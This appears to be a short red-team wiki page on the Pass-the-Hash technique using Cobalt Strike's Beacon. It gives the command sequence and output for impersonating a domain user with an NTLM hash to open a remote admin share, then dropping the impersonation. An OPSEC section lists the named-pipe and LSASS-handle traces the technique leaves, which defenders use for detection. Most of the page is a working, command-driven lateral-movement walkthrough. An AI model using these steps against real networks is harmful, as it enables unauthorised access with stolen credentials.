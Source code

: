 # Pass The Hash (PTH)

##

## Pass The Hash

#### <mark style="color:red;">Note</mark>: Requires Elevated Privileges

## Cobalt Strike

Beacon has a built-in `pth` command that runs mimikatz in the background.&#x20;

#### We'll first attempt to access resources we don't have permission to

```powershell
beacon> getuid
[*] You are DEV\sam (admin)

beacon> ls \\internal-website.rotta.dev\c$
[-] could not open \\internal-website.rotta.dev\c$\*: 5 - ERROR_ACCESS_DENIED
```

### Execute PTH with NTLM hash

We can execute Pass-The-Hash like so:

```powershell
beacon> pth DEV\robert 2B576ACBE6BCFDA7294D6BD18041B8FE
...
```

#### List resources as impersonated user

```powershell
beacon> ls \\internal-website.rotta.dev\c$
[*] Listing: \\internal-website.rotta.dev\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2024 11:30:11   $Recycle.Bin
          dir     08/10/2024 11:45:28   $WinREAgent
```

### Drop Impersonation

Use `rev2self` to drop impersonation.

```powershell
beacon> rev2self
[*] Tasked beacon to revert token
```

## OPSEC

When running the `pth` command, a named pipe command is run that looks like:

```powershell
program	: C:\Windows\system32\cmd.exe /c echo 71fb38e2d65 > \\.\pipe\675b08
```

<mark style="color:red;">**Note**</mark>:  This can be found via the "Suspicious Named Pipe Impersonation" search, which queries process events where the arguments contain "echo", ">" and "\\.\pipe".



<mark style="color:red;">**Note**</mark>: Mimikatz also opens a suspicious handle to LSASS.&#x20;

PROCESS\_QUERY\_LIMITED\_INFORMATION (0x1000), PROCESS\_VM\_WRITE (0x0020), PROCESS\_VM\_READ (0x0010) and PROCESS\_VM\_OPERATION (0x0008).
